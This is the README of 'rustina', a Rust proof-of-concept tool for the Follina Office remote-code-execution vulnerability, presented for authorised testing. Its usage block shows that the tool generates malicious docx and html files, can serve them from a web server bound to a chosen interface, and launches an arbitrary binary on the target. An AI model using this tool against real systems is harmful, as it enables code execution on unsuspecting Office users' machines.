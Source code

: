 # rustina
Follina PoC written in rust

Quick POC to replicate the 'Follina' Office RCE vulnerability for testing purposes. This has been inspiered by chvancooten/follina.py and was a first attempt to code in Rust.

> ⚠ DO NOT USE IN PRODUCTION

> ⚠⚠⚠ DO NOT USE IF NOT EXPLICITLY AUTHORISED TO DO SO!!!

## Usage:

```
$ follina --help
****************************************************************
*                                                              *
*                           Follina                            *
*                                                              *
*                Good thing we disabeled macros                *
*                                                              *
****************************************************************
Usage: rustina <ip addr> <port> <binary to execute>
        # Manual mode : Only genetrates docx and html files
Usage: rustina
        # Manual mode : Only genetrates docx and html files pointing to 127.0.0.1:8080 and launching calc.exe
Usage: rustina --server
        # Server mode : Genetrates docx and html files and bind a web server to localhost:8080, the exploit launches calc.exe
Usage: rustina --server <binary to execute>
        # Server mode : Genetrates docx and html files and bind a web server to localhost:8080
Usage: rustina --server <network interface> <binary to execute>
        # Server mode : Genetrates docx and html files and bind a web server to iface_ip_addr:8080
Usage: rustina --help
```

